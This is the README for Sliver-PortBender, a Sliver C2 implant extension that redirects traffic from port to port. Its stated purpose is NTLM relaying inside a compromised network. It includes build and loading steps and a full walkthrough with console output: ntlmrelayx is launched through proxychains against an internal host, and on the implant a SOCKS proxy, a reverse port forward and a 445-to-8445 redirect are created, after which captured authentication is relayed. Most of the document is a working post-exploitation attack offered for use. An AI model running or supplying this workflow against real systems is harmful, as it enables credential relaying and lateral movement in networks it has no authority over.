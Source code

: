 # Sliver-PortBender

An **extension to Sliver C2**, that allows to **manage multiple redirection traffic rules, from port to port, inside the same implant**. 
It maybe useful for performing **NTLM relaying in Sliver** in a similar way to what is described here https://rastamouse.me/ntlm-relaying-via-cobalt-strike/ for Cobalt-Strike. I recommend the user to first read the article before in case doesn't have any experience with PortBender.
**The extension is a DLL wrapping the PortBender Reflective DLL** developed by praetorian-inc here: https://github.com/praetorian-inc/PortBender. Sliver-PortBender performs the same redirection task, 
performed by the original PortBender, but does everything **inside the same implant with no need to inject into other binaries or drop binaries to disk**.

## How it works

The DLL manages multiple threads each one in charge of redirecting traffic from one port to another one. It keeps a map ID -> thread that allows to destroy/create/list the different
threads. For redirection task most of the code was taken from the original PortBender project and it was refactored in order to not crash the implant.
Even if the **backdoor** command appears as a possible argument, it is actually **not available**.

## How to build it

open the solution file using visual studio 2019, and build the x64 release (I didn't test the x86).

## How to load / install it

Until this is potentially included in the armory it can be built on a windows system and loaded manually in sliver.
Create a directory called sliver-extension and copy inside it SliverPortBender.dll, the binary previously compiled on windows with visual studio, and extension.json:
```
$ mkdir sliver-extension && cd sliver-extension
$ cp /path/to/extension.json .
$ cp /path/to/SliverPortBender.dll .
```

Install and load the extension in sliver-client:
```
> extension install /path/to/sliver-extension
> extension load /path/to/sliver-extension
```

Alternatively you can download the release and use again the `extension install` and `extension load` commands with the folder extracted from the zip in the release. Only x64 version is in the release.

## Usage

Be careful to use it only with **session** type implants. **beacons** in sliver have the issue of reloading everytime the DLL, instead of loading it only the first time it gets executed. I'll perform a PR that fix that behaviour soon.

By running `portbender` you can already get a help message. Here the functionalities:

- `portbender redirect <fakeDstPort> <redirectedPort>` . Redirects the traffic from `<fakeDstPort>` to `<redirectedPort>`
- `portbender list` . List the active redirection rules created with the `redirect command`
- `portbender remove <id>` . Stop and remove a redirection rule with a given `<id>`. The `<id>` is retrieved through the `portbender list`command.

### Example

Here how to use Sliver-Portbender in sliver in order to redirect traffic from port 445 to port 8445 and then relay incoming traffic with ntlmrelayx in the internal network.
Be careful It is first necessary to upload `WinDivert64.sys` in the pivot machine to the path `C:\Windows\System32\drivers`. Later it is necessary to change directory to `C:\Windows\System32\drivers`.

Starting ntlmrelayx:
```

┌──(kali㉿kali)-[~]
└─$ proxychains4 impacket-ntlmrelayx -smb2support -t smb://WIN-ICSQJ44N1F3.contoso.local --no-http-server
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Creating socks proxy, port forwarding rule and portbender rule in session:

```

[*] Active session RIPE_COUNCILOR (2aff286b-da8d-4636-8f8e-8512f67ab64e)

sliver (RIPE_COUNCILOR) > socks5 start -P 1080

[*] Started SOCKS5 127.0.0.1 1080
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol

sliver (RIPE_COUNCILOR) > cd C:\\Windows\\System32\\Drivers

[*] C:\Windows\System32\Drivers

sliver (RIPE_COUNCILOR) > ls WinDivert64.sys

C:\Windows\System32\Drivers (1 item, 37.0 KiB)
==============================================
-rw-rw-rw-  WinDivert64.sys  37.0 KiB  Sun Dec 11 21:20:20 +0100 2022


sliver (RIPE_COUNCILOR) > rportfwd add -b 0.0.0.0:8445 -r 192.168.161.50:445

[*] Reverse port forwarding 192.168.161.50:445 <- 0.0.0.0:8445

sliver (RIPE_COUNCILOR) > portbender redirect 445 8445

[*] Successfully executed portbender
[*] Got output:
Initializing manager...
Creating redirection with id 0...
Redirection created successfully


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
        id:     ORIGINAL_PORT -> REDIRECTED_PORT        MODE(0=redirect,1=backdoor)     PASSWORD
        0:      445 -> 8445     0


sliver (RIPE_COUNCILOR) > 
```

Generating some traffic towards port 445 on the pivot machine (ip=192.168.161.30) where the implant is running:
```
C:\Users\Administrator>dir \\192.168.161.30\c$
The user name or password is incorrect.

C:\Users\Administrator>
```

Notice ntlmrelayx captured and relayed some traffic towards another machine in the internal network:

![immagine](https://user-images.githubusercontent.com/74059030/208508027-c9e472d8-5b70-4722-a675-f07baf8cf768.png)

Removing the port redirection rule in the sliver implant:
```

sliver (RIPE_COUNCILOR) > portbender remove 0

[*] Successfully executed portbender
[*] Got output:
successfully removed redirection with Id 0


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
Nothing to show


sliver (RIPE_COUNCILOR) >

```

Notice now the previous command used to generate traffic executes successfully:
![immagine](https://user-images.githubusercontent.com/74059030/208510154-ffb4c5b6-d9cb-4e0a-8de3-e6cea1a114e8.png)


## Credits

- https://github.com/BishopFox/sliver/wiki/Aliases-&-Extensions#extensions
- https://github.com/praetorian-inc/PortBender
- https://rastamouse.me/ntlm-relaying-via-cobalt-strike/
- https://github.com/trustedsec/SliverKeylogger

## Acknowledgements
Special thanks goes to [@rkervella](https://github.com/rkervella) [@moloch--](https://github.com/moloch--) and the other members of Bishop Fox for their job on Sliver, and to [@praetorian-inc](https://github.com/praetorian-inc) for the original PortBender project. I thank also [@freefirex](https://github.com/freefirex) for his work on Sliver Keylogger. In fact I was insipired by his work when creating the extension.
